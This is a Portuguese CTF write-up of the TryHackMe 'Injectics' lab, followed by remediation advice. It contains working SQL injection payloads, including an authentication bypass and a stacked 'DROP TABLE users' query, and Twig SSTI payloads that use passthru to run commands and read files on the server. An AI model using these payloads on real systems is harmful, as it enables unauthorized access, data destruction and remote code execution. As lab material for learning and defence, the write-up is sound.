

# 🚩 Injectics - TryHackMe Writeup

Write-up técnico completo do laboratório **Injectics** do TryHackMe, explorando vulnerabilidades web clássicas incluindo SQL Injection para bypass de autenticação, Server-Side Template Injection (SSTI) no template engine Twig, e exposição de dados sensíveis.


## 📝 Descrição do Laboratório

O laboratório **Injectics** é focado em exploração de vulnerabilidades web modernas, abordando três principais vetores de ataque:

- **SQL Injection (SQLi):** Bypass de autenticação e manipulação de banco de dados
- **Server-Side Template Injection (SSTI):** Execução remota de código através do template engine Twig
- **Information Disclosure:** Exposição de dados sensíveis via logs públicos

**Target URL:** `http://injectics.thm`

### Configuração Inicial

Adicionar o IP da máquina ao arquivo `/etc/hosts`:

```bash
echo "TARGET_IP injectics.thm" | sudo tee -a /etc/hosts
```

---

## 🚀 Exploração Passo a Passo

### 1. Enumeração e Reconhecimento

#### Port Scanning

Iniciando com uma varredura de portas usando Nmap:

```bash
nmap -sV -sC -p- injectics.thm
```

**Resultado:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH
80/tcp open  http    Apache/Nginx
```

#### Directory Fuzzing

Utilizando `dirsearch` para descobrir diretórios e arquivos ocultos:

```bash
dirsearch -u http://injectics.thm -e php,html,txt,json
```

**Descobertas Importantes:**

| Arquivo/Diretório | Descrição |
|-------------------|-----------|
| `/composer.json` | Revela uso do template engine **Twig** |
| `/phpmyadmin` | Interface de gerenciamento MySQL |
| `/mail.log` | Arquivo de log exposto com informações sensíveis |
| `/dashboard.php` | Painel administrativo |
| `/flags/` | Diretório contendo as flags do desafio |

#### Análise do composer.json

```json
{
  "require": {
    "twig/twig": "^3.0"
  }
}
```

✅ **Confirmado:** O site utiliza **Twig**, um template engine para PHP.

#### Exposição de Dados Sensíveis

Ao inspecionar o código-fonte da página, encontramos uma referência ao arquivo `mail.log`:

**Conteúdo do mail.log:**
```
Subject: Database Backup Credentials

Database: users
Username: admin
Password: [REDACTED]

Note: If anything happens to the 'users' database, 
the following default accounts will be enabled automatically.
```

⚠️ **Vulnerabilidade Identificada:** Exposição de informações sensíveis em logs públicos.

---

### 2. SQL Injection - Authentication Bypass

#### Tentativas Iniciais

Payloads básicos de SQLi testados sem sucesso:
```sql
' OR '1'='1
' OR 1=1--
admin' OR '1'='1
```

#### Fuzzing de Payloads

Utilizando uma lista de payloads do GitHub:

**Recurso:** [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)

```bash
# Capturar requisição de login no Burp Suite
# Enviar para Intruder
# Carregar wordlist: Auth_Bypass.txt
```

**Configuração do Burp Suite Intruder:**

1. Capturar a requisição POST do formulário de login
2. Enviar para **Intruder** (Ctrl+I)
3. Definir posição de ataque no campo `username`
4. Carregar wordlist de payloads SQLi
5. Iniciar ataque

**Payload bem-sucedido encontrado:**
```sql
admin' OR '1'='1' -- 
```

✅ **Resultado:** Bypass de autenticação realizado com sucesso!

---

### 3. Acesso ao Painel Administrativo

#### SQL Injection na Funcionalidade de Update

Após o login, identificamos a página `dashboard.php` com funcionalidade de atualização de dados.

**Teste inicial:**
```sql
1' SELECT 1;
```

❌ **Erro:** Validação detectou caractere inválido.

**Payload ajustado:**
```sql
1; SELECT 1;
```

✅ **Sucesso:** Query executada, mas ainda sem acesso administrativo completo.

#### Explorando a Informação do mail.log

Lembrando da informação encontrada no `mail.log`:

> *"If anything happens to the 'users' database, default accounts will be enabled."*

**Estratégia:** Deletar a tabela `users` para ativar as credenciais padrão.

**Payload de SQL Injection:**
```sql
1; DROP TABLE users;--
```

**Execução:**
1. Inserir payload no campo de atualização
2. Aguardar processamento
3. Tentar login com credenciais padrão

**Credenciais Padrão:**
- Username: `admin`
- Password: `admin`

✅ **Sucesso:** Acesso administrativo obtido!

🚩 **Flag 1 capturada no painel administrativo**

---

### 4. Server-Side Template Injection (SSTI)

#### Identificação da Vulnerabilidade

Navegando pelo painel, encontramos a funcionalidade de **atualização de perfil** em `/dashboard.php?page=profile`.

Como já sabemos que o site utiliza **Twig**, testamos SSTI.

#### Payload de Detecção

**Payload polimórfico de detecção:**
```
${{<%[%'"}}%\
```

Este payload testa múltiplos template engines simultaneamente.

#### Confirmação com Twig

**Payload de teste matemático:**
```twig
{{7*7}}
```

**Resultado esperado:** `49`

✅ **Confirmado:** A aplicação é vulnerável a SSTI!

#### Escalando para RCE (Remote Code Execution)

**Payload inicial de RCE:**
```twig
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

❌ **Erro:** Payload complexo bloqueado por filtros.

**Payload simplificado:**
```twig
{{['id',""]|sort('passthru')}}
```

✅ **Sucesso:** Comando `id` executado no servidor!

**Saída:**
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Listando o Diretório /flags

**Payload para listagem:**
```twig
{{['ls /flags',""]|sort('passthru')}}
```

**Resultado:**
```
flag.txt
```

#### Capturando a Flag Final

**Payload para leitura:**
```twig
{{['cat /flags/flag.txt',""]|sort('passthru')}}
```

🚩 **Flag 2 capturada com sucesso!**

---

## 🛡️ Vulnerabilidades Descobertas e Remediação

### 1. SQL Injection

**Impacto:**
- Bypass de autenticação
- Manipulação de banco de dados
- Possível extração de dados sensíveis

**Remediação:**

```php
// ❌ Código vulnerável
$query = "SELECT * FROM users WHERE username = '$username'";

// ✅ Código seguro com Prepared Statements
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$username]);
```

**Boas práticas:**
- Usar **Prepared Statements** (PDO/MySQLi)
- Implementar **validação de entrada** rigorosa
- Aplicar princípio do **menor privilégio** no banco de dados
- Sanitizar **todos** os inputs do usuário

---

### 2. Server-Side Template Injection (SSTI)

**Impacto:**
- Execução remota de código (RCE)
- Comprometimento total do servidor
- Acesso a dados sensíveis e arquivos do sistema

**Remediação:**

```php
// ❌ Código vulnerável
$twig->render($template, ['name' => $_POST['name']]);

// ✅ Código seguro
$twig = new \Twig\Environment($loader, [
    'autoescape' => 'html',
    'strict_variables' => true,
]);

// Nunca permitir input do usuário como template
$template = $twig->load('profile.html');
echo $template->render(['name' => htmlspecialchars($_POST['name'])]);
```

**Boas práticas:**
- **Nunca** usar input do usuário como parte do template
- Habilitar **autoescape** no Twig
- Utilizar **sandbox mode** do Twig para restringir funções perigosas
- Validar e sanitizar **todos** os dados antes de renderizar
- Implementar **Content Security Policy (CSP)**

```php
// Configuração segura do Twig
$twig = new \Twig\Environment($loader, [
    'autoescape' => 'html',
    'strict_variables' => true,
]);

// Habilitar Sandbox
$policy = new \Twig\Sandbox\SecurityPolicy(
    ['if', 'for'],  // tags permitidas
    ['upper', 'lower'],  // filtros permitidos
    [],  // métodos permitidos
    [],  // propriedades permitidas
    []   // funções permitidas
);

$sandbox = new \Twig\Extension\SandboxExtension($policy, true);
$twig->addExtension($sandbox);
```

---

### 3. Information Disclosure (Exposição de Dados Sensíveis)

**Impacto:**
- Vazamento de credenciais
- Exposição de arquitetura do sistema
- Facilita ataques subsequentes

**Remediação:**

```nginx
# Bloquear acesso a arquivos de log
location ~* \.(log|txt)$ {
    deny all;
    return 404;
}

# Bloquear acesso a arquivos sensíveis
location ~ /(\.git|\.env|composer\.json|composer\.lock) {
    deny all;
    return 404;
}
```

**Boas práticas:**
- **Logs nunca devem ser acessíveis** via web
- Armazenar logs **fora do document root**
- Implementar **log rotation** adequado
- Não incluir **informações sensíveis** em logs
- Revisar configurações do servidor web regularmente

---

## 🔗 Referências e Ferramentas

### Ferramentas Utilizadas

- **Nmap:** Port scanning e reconhecimento
- **dirsearch:** Directory fuzzing
- **Burp Suite:** Interceptação e fuzzing de requisições
- **PayloadsAllTheThings:** Repositório de payloads

### Links Úteis

- [TryHackMe - Injectics Room](https://tryhackme.com/room/injectics)
- [SQL Injection Payload List](https://github.com/payloadbox/sql-injection-payload-list)
- [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
- [Twig Documentation - Security](https://twig.symfony.com/doc/3.x/api.html#sandbox-extension)
- [OWASP - SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## 📊 Resumo do Ataque



---

## ⚠️ Aviso Legal

Este conteúdo possui **fins exclusivamente educacionais** e foi realizado em ambiente controlado do TryHackMe. 

A exploração de vulnerabilidades em sistemas sem autorização expressa é **ilegal** e pode resultar em consequências criminais graves. Este writeup deve ser usado apenas para:

- ✅ Aprendizado em ambientes controlados
- ✅ Testes de segurança autorizados
- ✅ Bug bounty programs legítimos
- ✅ Competições CTF oficiais

---

## 👤 Autor

**iceShaher**
- TryHackMe: [@iceShaher](https://tryhackme.com/p/iceShaher)
